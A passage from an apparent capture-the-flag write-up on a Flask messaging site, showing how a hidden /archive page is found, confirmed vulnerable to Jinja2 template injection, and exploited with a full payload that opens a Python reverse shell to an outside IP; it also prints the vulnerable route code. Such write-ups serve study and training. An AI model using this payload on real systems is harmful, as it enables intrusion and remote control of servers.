 8. Try creating an account on "Doctor Secure Messaging" and find comment `<!--archive still under beta testing<a class="nav-item nav-link" href="/archive">Archive</a>-->`.

9. I tested various approaches with the message posting functionality including [Server Side Template Injection (SSTI) with Flask](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---basic-injection) since Wappalyzer informed me the web framework was Flask. I then decided to check `/archive` after creating a post. Creating a post with a title and content of `{{7*'7'}}` produces `7777777`, which shows this page is vulnerable to SSTI.

10. Post the following in the title and content using the "New Message" function then visit `/archive` to get a reverse shell:

    ```
    {% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.131\",3254));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
    ```

    The above was obtained from [swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#exploit-the-ssti-by-calling-popen-without-guessing-the-offset) and changed to call `/bin/bash` instead of `/bin/cat` to print a flag.

    The `/archive` page is vulnerable as explained [on this page](https://blog.nvisium.com/p263). `/archive` routing code:

    `cat /home/web/blog/flaskblog/main/routes.py`:

    ```python
    from flask import render_template, render_template_string, request, Blueprint
    from flask_login import current_user, login_required
    from flaskblog.models import Post

    main = Blueprint('main', __name__)


    @main.route("/")
    @main.route("/home")
    @login_required
    def home():
            page = request.args.get('page', 1, type=int)
            posts = Post.query.order_by(Post.date_posted.asc()).paginate(page=page, per_page=10)
            return render_template('home.html', posts=posts, author=current_user)


    @main.route("/archive")
    def feed():
            posts = Post.query.order_by(Post.date_posted.asc())
            tpl = '''
            <?xml version="1.0" encoding="UTF-8" ?>
            <rss version="2.0">
            <channel>
            <title>Archive</title>
            '''
            for post in posts:
                    if post.author==current_user:
                            tpl += "<item><title>"+post.title+"</title></item>\n"
                            tpl += '''
                            </channel>
                            '''
            return render_template_string(tpl)
    ```
